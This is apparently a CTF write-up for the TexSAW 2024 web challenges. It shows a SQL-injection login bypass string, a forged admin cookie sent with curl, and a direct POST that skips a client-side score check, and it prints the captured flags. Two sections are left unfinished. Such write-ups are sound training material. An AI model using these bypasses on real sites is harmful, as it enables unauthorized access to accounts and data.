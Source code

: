 ### TexSAW 2024

### Challenges
- Web
  - Login Attempt
  - Crazy Cookie
  - Extreme Security
  - Over 9000
  - Ask, and it shall be given to you

### Challenge 1: Login Attempt

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b56385c4-6a19-48c3-9141-f62b089907d0)

- The challenge is a basic sql injection challenge which requires bypassing a login page.I bypassed the login page with a true sql statement `' or 1=1--+`.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/881b97ae-b2a5-44c1-8cf8-3a073fa2fba9)

- Flag

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/582ef905-850d-421f-afa6-30e09a32c793)

### Challenge 2: Crazy Cookie

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/61d8f77f-ea45-4d9f-8bad-e5aae4d212d2)

- The challenge's objective is to bypass this login page.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/35f367af-e620-4897-8fb7-f0d3a025986a)

- After analyzing the response of the response with curl, I noticed that the cookie contains a key 'role' with the value 'user'.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3970f7f8-e7d5-4462-a10e-7e7e81bc9892)

- I got the flag by setting the `role` value to admin

          ❯ curl http://3.23.56.243:9002/ -H 'Cookie: role=admin; Path=/'
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>Flag</title>
            <style>
                body {
                    font-family: Arial, sans-serif;
                    text-align: center;
                    margin: 0;
                    padding: 0;
                    background-color: #f3f3f3;
                }
                .container {
                    max-width: 600px;
                    margin: 50px auto;
                    background-color: #fff;
                    border-radius: 10px;
                    box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
                    padding: 20px;
                }
                h1 {
                    color: #4CAF50;
                    margin-top: 0;
                }
                .flag {
                    font-size: 24px;
                    color: #FF5722; /* Orange color */
                    margin-top: 20px;
                    padding: 10px;
                    border: 2px solid #FF5722; /* Orange border */
                    border-radius: 5px;
                }
            </style>
        </head>
        <body>
            <div class="container">
                <h1>Flag!</h1>
                <div class="flag">
                    texsaw{cR@zy_c00Ki3}
                </div>
            </div>
        </body>
        </html>           
        

### Challenge 3: Extreme Security

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1deae3cb-e7b9-4295-b4dc-4e95ff32f7c4)

- In this challenge, the site will only allow requests from this origin `https://texsaw2024.com` will be allowed which means  Cross Origin Resource Sharing configuration pf the site is set to the url above.A request made by a url `http://texsaw2024.com` will be restricted because of the `http://` protocol in the url

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4c908f0f-bacd-4db5-a456-95dc6e03c502)

- 






### Challenge 4: Over 9000

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/92c0a2fd-a501-41c9-9336-c9bb5e303a47)

- In this challenge, players will only be granted the flag if they score an energy of over 9000 energy.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d04caa09-d7eb-42a8-a286-b235e558884d)

- The challenge contains a javascript code located in a file `9000.js`

  
      let currentEnergy = 0;
      
      function gatheringEnergy(){
          currentEnergy++;
          $("#energycount").html(`${currentEnergy}`);
          if(currentEnergy == 10)
          {
              alert("out of energy try again :(")
              currentEnergy = 0;
              $("#energycount").html(0);
              
          }
          else if (currentEnergy > 9000)
          {
              
              $.ajax({
                  type:"POST",
                  url:"kamehameha.php",
                  data:{energy: currentEnergy},
                  success: function(flag){
                      alert(`${flag}`);
                  },
                  error: function(responseText,status, error){
                      console.log(`Tell the infrastructure team to fix this: Status = ${status} ; Error = ${error}`);
                  }
      
      
              })
              
          }
      }
 - The code snippet states that if the `currentEnergy` variable is greater than 9000, a POST request with data stating the amount of current energy is made to another page `kamehameha.php` which grants us the flag. Instead of playing the game, we can just make a request to the `kamehameha.php` page with current energy of 9000 to get the flag.

          ❯ curl http://3.23.56.243:9005/kamehameha.php -d "energy=90000" -X POST
        texsaw{y0u_th0ught_th1s_w4s_4_fl4g_but_1t_w4s_m3_d10}

Challenge 5: Ask and it shall be given unto you
   

   
